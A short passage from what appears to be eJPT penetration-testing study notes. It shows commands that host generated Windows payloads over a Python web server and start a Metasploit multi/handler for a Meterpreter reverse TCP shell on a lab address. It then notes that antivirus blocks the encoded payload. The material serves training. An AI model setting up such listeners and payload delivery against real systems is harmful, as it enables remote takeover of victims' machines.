 - Test each of the above generated payloads, like before

```bash
cd /home/kali/certs/ejpt/Windows_Payloads
sudo python -m http.server 8080
msfconsole -q

use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run
```

![](assets/image-20230415213745031.png)

> 📌 Modern antivirus detects and blocks the encoded payload as soon as the download is started:
>
> ![](assets/image-20230415214414552.png)
